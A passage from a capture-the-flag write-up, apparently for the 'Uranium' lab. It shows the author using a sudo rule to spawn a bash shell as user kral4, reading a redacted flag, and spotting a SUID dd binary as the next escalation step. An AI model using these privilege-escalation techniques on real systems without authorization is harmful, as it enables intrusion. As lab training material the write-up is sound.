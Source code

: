 Now we have user `hakanbey`'s password!

**Let's check out Sudo permission:**
```shell
hakanbey@uranium:~$ sudo -l
[sudo] password for hakanbey: 
Matching Defaults entries for hakanbey on uranium:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hakanbey may run the following commands on uranium:
    (kral4) /bin/bash
```

Oh! User `hakanbey` can run `/bin/bash` as user `kral4`!

**Let's spawn a bash shell as user `kral4`!**
```shell
hakanbey@uranium:~$ sudo -u kral4 /bin/bash
kral4@uranium:~$ whoami;hostname;id;ip a
kral4
uranium
uid=1001(kral4) gid=1001(kral4) groups=1001(kral4)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:c5:fc:b9:fc:6f brd ff:ff:ff:ff:ff:ff
    inet 10.10.180.31/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2865sec preferred_lft 2865sec
    inet6 fe80::c5:fcff:feb9:fc6f/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm `kral4`!

**user2.txt:**
```shell
kral4@uranium:~$ cat /home/kral4/user_2.txt 
thm{Redacted}
```

### kral4 to web

**According to the enumeration result in user `hakanbey` session, we found `/bin/dd` binary has a SUID sticky bit, and it's owned by user `web`:**
```shell
kral4@uranium:~$ ls -lah /bin/dd
-rwsr-x--- 1 web kral4 75K Apr 23  2021 /bin/dd
```

That being said, we could escalate our privilege to user `web`!
